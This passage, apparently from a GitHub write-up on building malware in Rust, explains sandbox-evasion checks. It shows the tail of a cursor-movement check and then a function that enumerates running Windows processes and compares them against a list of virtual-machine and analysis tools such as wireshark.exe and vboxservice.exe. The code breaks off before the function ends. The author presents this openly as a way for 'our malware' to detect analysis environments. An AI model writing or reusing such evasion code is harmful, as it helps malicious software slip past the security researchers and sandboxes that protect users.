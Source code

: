                       if x == cursor.x && y == cursor.y {
                          return false;
                      }
                  }

                  true
              }

            ```

    3. ***Running Processes and Services:***

        * Usually, a sandbox has multiple antivirus programs, debuggers, monitoring programs running as active processes. Our malware can check for the availability of some of these to determine if it's being ran in a sandbox
    
        * In my code, I looked up how to [numerate all running processes from MSDN](https://docs.microsoft.com/en-us/windows/win32/psapi/enumerating-all-processes) and translate their C++ code into Rust.
    
        * Then I extract their names and compare it with a list of executable names that usually exists in sandbox environment.
  
    ``` rust
            
   pub fn check_process() -> bool {
       let mut a_processes: Vec<u32> = Vec::with_capacity(1024);
       let mut i = 0;
       while i < 1024 {
           a_processes.push(0u32);
           i += 1;
       }
       let mut cb_needed: u32 = 0u32;
       let mut _c_processes: u32 = 0u32;
       if unsafe { EnumProcesses(a_processes.as_ptr() as *mut u32, 1024 * 4, &mut cb_needed) } == 0 {
           return false;
       }

        // Calculate how many process identifiers were returned.
       _c_processes = cb_needed / 4;
       let mut current_processes: Vec<String> = Vec::new();
       let mut count = 0;
       while count < _c_processes {
           if a_processes[count as usize] != 0 {
               let process_name = print_process_name_and_id(a_processes[count as usize]);
               if process_name.len() != 0 {
                   current_processes.push(process_name);
               }
           }
           count += 1;
       }

       let sandbox_processes = [
           "vmsrvc.exe",
           "tcpview.exe",
           "wireshark.exe",
           "fiddler.exe",
           "vmware.exe",
           "VirtualBox.exe",
           "procexp.exe",
           "autoit.exe",
           "vboxtray.exe",
           "vmtoolsd.exe",
           "vmrawdsk.sys.",
           "vmusbmouse.sys.",
           "df5serv.exe",
           "vboxservice.exe",
       ]
       .to_vec();